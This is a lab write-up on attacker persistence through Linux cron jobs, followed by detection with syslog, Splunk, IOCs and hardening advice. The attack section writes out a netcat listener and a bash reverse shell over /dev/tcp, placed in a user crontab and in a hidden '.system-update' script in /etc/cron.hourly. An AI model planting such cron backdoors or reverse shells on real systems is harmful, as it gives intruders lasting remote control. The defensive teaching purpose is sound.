





# &#x1F512; Persistence by Cron Jobs

----------------------------------------

## Cron jobs are automated tasks on unix based operating systems, scheduled to run at predefined intervals it managed via a crontab.

## In this lab we will see how attackers set cron jobs to achive persistence.

---------------------------------------

## 1). Lab Architecture & Prerequisites

- Attacker Machine:- Kali (192.168.1.7)

- victim Machine:- Ubuntu (192.168.1.6)

- Audit logs and syslog

- SIEM:- Splunk

## 2). Attack Simulation

We will simulate an attacker who has already gained access and wants to establish a backdoor. We'll use a standard reverse shell template that attempts to connect back to an attacker's listener machine every minute.

We will see how attackers use this at user-level and root-level.

### 1). Start the Attacker Listener

Fisrt we will start netcat listner on port 4444 to catch callback,

#### nc -lvnp 4444

### 2). Establish Persistence

Attackers use different directories based on the privileges they manage to compromise.

### User-Level Persistence (Crontab manipulation)

If the attacker only has standard user access, they modify that specific user's crontab.

We will open crontab for current user by following command,

#### crontab -e

And add this line at the bottom to execute a reverse shell every minute,

#### * * * * * bash -c 'exec bash -i &>/dev/tcp/192.168.1.7/4444 <&1'

Ok now all is done this cron job will execute on every minute and and let's go on our kali machine,

We successfuly got shell from our ubuntu machine (192.168.1.6).

This is how attackers use cron jobs using user-level privileges now let see how attackers use root-level crons with high-level privileges.

### Root-Level System Persistence (Dropping a file)

If the attacker gains root privilege, they typically avoid crontab -e because it leaves obvious footprints. Instead, they drop a malicious script directly into system-wide cron directories.

We will Create a hidden malicious script in the system-wide hourly cron folder,

#### sudo nano /etc/cron.hourly/.system-update

And we will add same reverse shell in this file,

#### bash -c 'exec bash -i &>/dev/tcp/192.168.1.7/4444 <&1'

- bash -c:- It will start a new bash shell instance and executes the string of commands contained inside the single quots.

- exec:- I will replaces the current shell process with the newly specified command instead of running it as a subprocess.

- bash -i:- It will invoke bash in interactive mode.

- &/dev/tcp/192.168.1.7/4444:- It will redirect both the standard output (stdout) and standard error (stderr) to a built-in bash virtual device file and establishes a TCP network connection on ip 192.168.1.7 and port 4444.

give it necessary permissions,

#### sudo chmod +x /etc/cron.hourly/.system-update

I will work same like we saw in user-level cron jobs but it will execute on hourly basis instead of seconds.

Now let's move on our detection phase.

## 3). Detection

First we will see crontabs by following command,

### sudo tail -v -n +1 /var/spool/cron/crontabs/*

- sudo:- It will run the command with root privileges.

- tail:- It will output last part of files.

- -v:- It is for verbose mode.

- -n +1:- It will start printing the lines from starting.

- /var/spool/cron/crontabs/*:- This is directory path where individual users crontab files are stored, it might be different on other systems.

We can see our reverse shell cron job in last line, i commented it because the job is already done.

Now let see in syslog, it is standard software architecture used in linux for collecting, generating and routing system log messages.

We can see from above screenshot our cron job was executed on every second.

Now let see how we can detect this in our splunk,

### index=* sourcetype=syslog
### | rex field=_raw "sudo:\s+(?<executing_user>\S+)\s+:\s+TTY=(?<tty>\S+)\s+;\s+PWD=(?<working_dir>\S+)\s+;\s+USER=(?<target_user>\S+)\s+;\s+COMMAND=(?<executed_command>.+)"
### | table _time, host, executing_user, target_user, tty, working_dir, executed_command

I use regex to extract all field from raw logs.

As we can see every entries of root-level cron job which we created.

------------------------------------------

## IOC (Indicator of Compromise)

|    Indicator    |    Value               |
|-----------------|------------------------|
|  Attacker's Ip  |  192.168.1.7           |
|  Victim's Ip    |  192.168.1.6           |
|  Port           |  4444                  |
|  Cron File      |  .system-update        |
|  Logs           |  syslog and audit logs |

----------------------------------------

## MITRE ATT&CK Mapping

|    Technique    |    Id      |
|-----------------|------------|
|  Cron Jobs      |  T1053.003 |
|  Reverse Shell  |  T1059.004 |

--------------------------------------------

## Recommendations

### 1). Least Privilege

### 2). Monitor Cron changes
Continusoly monitor this locations,

- /etc/crontab
- /etc/cron.d/
- /etc/cron.daily/
- /etc/cron.hourly/
- /etc/cron.weekly/
- /etc/cron.monthly/
- /var/spool/cron/crontabs/

### 3). Enable Audit Logging

### 4). Restrict Cron Access
Use:

- /etc/cron.allow
- /etc/cron.deny

